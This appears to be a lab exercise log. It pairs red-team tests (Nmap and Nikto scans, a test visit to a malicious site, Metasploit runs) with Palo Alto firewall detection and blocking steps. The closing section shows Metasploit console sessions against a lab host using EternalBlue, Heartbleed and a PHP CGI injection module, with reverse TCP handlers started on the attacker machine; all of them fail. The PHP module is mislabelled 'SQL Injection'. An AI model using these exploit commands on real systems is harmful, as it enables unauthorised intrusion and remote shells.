Red Test: Nmap against DMZ and Windows Server

### Set up alert in a Palo Alto firewall for detecting and responding to Nmap scans

**Blue Response**

- **Create a Security Profile**
  - In Objects > Security Profiles > Vulnerability Protection.
  - Add a New Profile named Nmap_Scan_Detection.
  - Added Signature Exceptions for Nmap Detection:
    - Selected multiple Nmap related signatures.
    - Set the Action to Block for each of these signatures.
  - Ensure that logging is enabled for the new security policy rule.
- **Verify and Tested**
  - Checked that Monitor > Logs > Threat to review the alerts generated by Nmap scan detections.

---

## Red Test: Attempt to block access to potentially malicious websites

**Website:** Malicious websites (hacker9.org)

- **Description:** Attempt to access hacker9.org

**Steps to Test:**

1. Update Block Lists: Ensure firewall is using up-to-date threat intelligence feeds and URL categories.
2. Configure URL Filtering: Set up URL filtering rules to block categories like malware, phishing, and suspicious sites.
3. Enable Logging: Make sure logging is enabled for blocked attempts to access malicious sites.
4. Select Test URLs: Choose URLs such as hacker9.org.
5. Perform Tests: Try accessing the selected test URLs from a client within the network.
6. Check Logs: Verify that the access attempts are logged and blocked by your firewall.

**Blue Response**

- **Firewall Configuration**
  - URL Filtering: Configured Palo Alto firewall's URL filtering settings are configured to block access to categories of sites that are considered risky or inappropriate.
  - Threat Prevention: Enable threat prevention features to block known malicious IP addresses and domains.
  - SSL Decryption: Implement SSL decryption to inspect HTTPS traffic for malicious content.

---

## Red Test: Nikto against DMZ Server

**Typical Nikto Scan Activities**

- **Banner Grabbing:**
  - Identifies the version of the web server (Apache) and other software components.
- **Vulnerability Checks:**
  - Scans for known vulnerabilities in the Apache web server, PHP, MySQL, and any web applications running on the server.
  - Looks for outdated software versions with known exploits.
- **Configuration Issues:**
  - Identifies misconfigurations such as directory indexing, enabled HTTP methods (like PUT, DELETE), and default files (e.g., index.php, index.html).
- **Sensitive File Detection:**
  - Searches for sensitive files and directories, such as configuration files (phpinfo.php, .htaccess), backup files (.bak, .old), and temporary files.
- **Common Web Application Vulnerabilities:**
  - Tests for vulnerabilities such as SQL injection, Cross-Site Scripting (XSS), Cross-Site Request Forgery (CSRF), and Local File Inclusion (LFI).
- **SSL/TLS Vulnerabilities:**
  - Checks for weak SSL/TLS configurations and vulnerabilities.

### Set up alert in a Palo Alto firewall for detecting and responding to Nikto scans

**Blue Response**

- **Create a Security Profile**
  - In Objects > Security Profiles > Vulnerability Protection.
  - Add a New Profile named Nikto_Scan_Detection.
  - Added Signature Exceptions for Nikto Detection:
    - Selected any Nikto related signatures.
    - Set the Action to Block for each of these signatures.
  - Ensure that logging is enabled for the new security policy rule.
- **Verify and Tested**
  - Checked that Monitor > Logs > Threat to review the alerts generated by Nmap scan detections.

---

## Red tests using Metasploit CLI and selected payloads

### Eternal Blue

msf6 exploit(windows/smb/ms17_010_eternalblue) > run
[*] Started reverse TCP handler on 192.168.100.200:4444
[*] 192.168.50.100:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[-] 192.168.50.100:445 - Rex::ConnectionRefused: The connection was refused by the remote host (192.168.50.100:445).
[*] 192.168.50.100:445 - Scanned 1 of 1 hosts (100% complete)
[-] 192.168.50.100:445 - The target is not vulnerable.
[*] Exploit completed, but no session was created.

### Heartbleed

msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > back
msf6 > use auxiliary/scanner/ssl/openssl_heartbleed
msf6 auxiliary(scanner/ssl/openssl_heartbleed) > set RHOSTS 192.168.50.100
RHOSTS => 192.168.50.100
msf6 auxiliary(scanner/ssl/openssl_heartbleed) > run
[*] 192.168.50.100:443 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

### SQL Injection

msf6 exploit(multi/http/php_cgi_arg_injection) > set RHOSTS 192.168.50.100
RHOSTS => 192.168.50.100
msf6 exploit(multi/http/php_cgi_arg_injection) > run
[*] Started reverse TCP handler on 192.168.100.200:4444
[*] Exploit completed, but no session was created.

msf6 exploit(multi/http/php_cgi_arg_injection) >
